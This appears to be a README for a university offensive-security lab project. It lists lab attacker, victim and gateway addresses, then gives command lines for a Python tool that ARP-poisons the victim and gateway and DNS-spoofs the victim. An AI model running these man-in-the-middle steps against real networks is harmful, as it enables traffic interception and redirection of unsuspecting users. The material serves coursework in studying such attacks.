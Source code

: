 # 2IC80Project
Lab on Offensive Computer Security
"
### Addresses:
Attacker:
10.0.123.4  08:00:27:4f:6a:5d

Victim:
10.0.123.5  08:00:27:23:55:6e

Gateway:
10.0.123.1  52:54:00:12:35:00

### Commands:

See ARP table: `arp`
Clear ARP table: `sudo ip -s -s neigh flush all`

# Run steps separately:
1. ARP poison the victim: `sudo python3 main.py --interface "enp0s10" arpPoison --ipVictim "10.0.123.5" --macVictim "08:00:27:23:55:6e" --ipToSpoof "10.0.123.1"`
2. ARP poison the gateway: `sudo python3 main.py --interface "enp0s10" arpPoison --ipVictim "10.0.123.1" --macVictim "52:54:00:12:35:00" --ipToSpoof "10.0.123.5"`
3. DNS Spoof the victim: `sudo python3 main.py dnsSpoof --ipVictim "10.0.123.5" --ipToSpoof "10.0.123.4"`